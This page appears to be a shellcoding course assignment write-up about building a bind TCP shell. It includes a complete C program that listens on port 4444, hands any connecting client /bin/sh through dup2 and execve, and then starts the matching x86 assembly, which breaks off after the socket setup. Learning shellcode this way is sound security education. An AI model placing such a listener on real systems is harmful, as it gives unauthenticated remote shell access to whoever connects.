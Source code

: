 ```yaml
---
title:  Assignment 1
description: Create a Shell Bind TCP shellcode
order: 1
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

Before we dive into assembly, let's first write a simple program in c to model the functionality.

```c
/* bind_tcp_model.c
 *  - Bind to a socket, listen for a connection, provide shell.
 */

#include <sys/socket.h>	// socket, AF_INET, SOCK_STREAM
#include <unistd.h>	// dup2
#include <netinet/in.h>	// sockaddr, htons, INADDR_ANY

int main() {
	int port = 4444;
	int sockfd, connfd;
	struct sockaddr_in sockaddr;

	// Build socket

	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// Bind to socket

	sockaddr.sin_family = AF_INET;
	sockaddr.sin_port = htons(port);
	sockaddr.sin_addr.s_addr = INADDR_ANY;

	bind(sockfd, (struct sockaddr *) &sockaddr, sizeof(sockaddr));

	// Listen on socket

	listen(sockfd, 0);

	// Accept a connection

	connfd = accept(sockfd, 0, 0);

	// Route i/o through connection

	dup2(connfd, 0);
	dup2(connfd, 1);
	dup2(connfd, 2);

	// Execute /bin/sh

	execve("/bin/sh", 0, 0);

	return 0;
}

```

Since the first step is creating a socket, let's look at the syscall *socketcall*, **102**.
```c
int socketcall(int call, unsigned long *args);
```
The syscall *socketcall* seems to accept a *call* parameter, so we'll take a look at those too.
```bash
> grep SYS_ /usr/include/linux/net.h

#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
...
```

To create a socket we'll need SYS_SOCKET, **1**, which from our c model we know takes the following form:
```c
int socket(int domain, int type, int protocol);
```

Let's try to put all this down in assembly.

```nasm
; bind_shell_tcp.nasm
;  - Bind to a socket, listen for a connection, provide shell.

global _start

section .text
_start:
        ; int socketcall(int call, unsigned long *args)
        ; eax = 0x66 (socketcall)
        ; ebx = 0x01 (socket)
        ; ecx = esp
        ; esp => |0x00000002|0x00000001|0x00000000|
        ;          AF_INET  SOCK_STREAM    null

        xor eax, eax
        mov al, 0x66
        xor ecx, ecx
        push ecx
        inc ecx
        push ecx
        xor ebx, ebx
        mov bl, cl
        inc ecx
        push ecx

```

Great!  Next up is bind.
```c
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```

<br>
{% include preamble.md %}


[&lt;&lt; Go Back]({{ site.baseurl }})
